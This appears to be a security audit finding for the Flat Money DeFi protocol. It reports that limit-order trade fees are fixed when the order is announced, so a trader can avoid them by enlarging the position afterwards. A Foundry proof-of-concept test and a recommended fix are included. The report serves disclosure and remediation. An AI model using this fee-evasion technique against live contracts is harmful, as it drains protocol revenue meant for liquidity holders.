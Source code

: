 Blurry Raisin Yak

medium

# Users can avoid paying trade fees on limit orders

## Summary

In Flat Money, trade fees are a core incentive to to maintain a delta-neutral position for UNIT holders. These fees are collected when leveraged traders take any action regarding the position, however, a malicious trader can completely avoid paying the trade fee on limit orders.

## Vulnerability Detail

The current mechanism computes the trade fee at the moment a limit order is announced. The fee, typically set at 0.1%, is based on the additional size of the trader's position at the time of announcement:

```solidity
    function announceLimitOrder(uint256 tokenId, uint256 priceLowerThreshold, uint256 priceUpperThreshold) external {
        // ...
        
>>      uint256 tradeFee = ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).getTradeFee(
            vault.getPosition(tokenId).additionalSize
        );

        // ...
    }
```

Traders can evade this fee through a simple strategy:

1. Initiate a position with the least possible margin and position size.
2. Place a limit order for this minimal position.
3. Modify the original position to the desired higher margin and size.

This sequence of actions results in a nominal fee at the time of order placement, effectively sidestepping the intended comprehensive trade fee.

## Impact

This loophole allows traders to circumvent trade fees on limit orders, posing a significant challenge. These fees play a crucial role in encouraging UNIT holders to maintain a balanced position, and their evasion undermines the system's foundational incentives.

## Proof of Concept

The vulnerability can be demonstrated through the following test script added to `LimitOrder.t.sol,` executable via the command: `forge test --match-test test_avoid_trade_fee`.

```solidity
function test_avoid_trade_fee() public {
    // Set trade fee to 1%
    vm.prank(admin);
    leverageModProxy.setLevTradingFee(0.01e18);

    // Create minimum leverage position
    uint256 aliceTokenId = announceAndExecuteLeverageOpen({
        traderAccount: alice,
        keeperAccount: keeper,
        margin: 0.05e18,
        additionalSize: 0.5e18,
        oraclePrice: 1000e8,
        keeperFeeAmount: 0
    });

    // Create limit order
    vm.prank(alice);
    limitOrderProxy.announceLimitOrder({
        tokenId: aliceTokenId,
        priceLowerThreshold: 900e8,
        priceUpperThreshold: 1100e8
    });

    bytes memory orderData = limitOrderProxy.getLimitOrder(aliceTokenId).orderData;
    FlatcoinStructs.LimitClose memory limitOrder = abi.decode(orderData,(FlatcoinStructs.LimitClose));

    assertEq(limitOrder.tradeFee, 0.5e18 * 0.01e18 / 1e18); // Trade fee is 1% of 0.5e18 (the minimum additional size)

    // Now, adjust the position to a bigger size
    announceAndExecuteLeverageAdjust({
        tokenId: aliceTokenId,
        traderAccount: alice,
        keeperAccount: keeper,
        marginAdjustment: 5e18,
        additionalSizeAdjustment: 50e18,
        oraclePrice: 1000e8,
        keeperFeeAmount: 0
    });

    // Now, Alice has a limit position with a trade fee way smaller than 1% of the position size
    // Therefore, Alice has successfully avoided the trade fee
    // The fee should be recalculated based on the current additional size at the time of execution
}
```

## Code Snippet

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L62-L64

## Tool used

Manual Review

## Recommendation

To address this vulnerability, it is advisable to recalibrate the trade fee at the moment the limit order is executed, rather than at the initial announcement. This change ensures the fee accurately reflects the trader's position size at the point of trade execution, thereby closing the loophole for fee evasion.
